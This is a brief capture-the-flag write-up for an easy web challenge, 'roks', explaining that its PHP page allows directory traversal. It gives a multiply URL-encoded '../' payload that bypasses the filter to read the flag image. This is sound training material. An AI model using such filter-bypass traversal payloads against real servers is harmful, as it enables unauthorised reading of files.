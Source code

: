 # roks
**Category:** Web
**Difficulty:** Easy
**Author:** FIREPONY57

## Description

My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

## Distribution

- source code with docker
- link

## Solution

- `index.php` is vulnerable to a directory transversal attack.
- Using url encoding to bypass the filter, we can use a payload such as `%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng` to grab the flag.

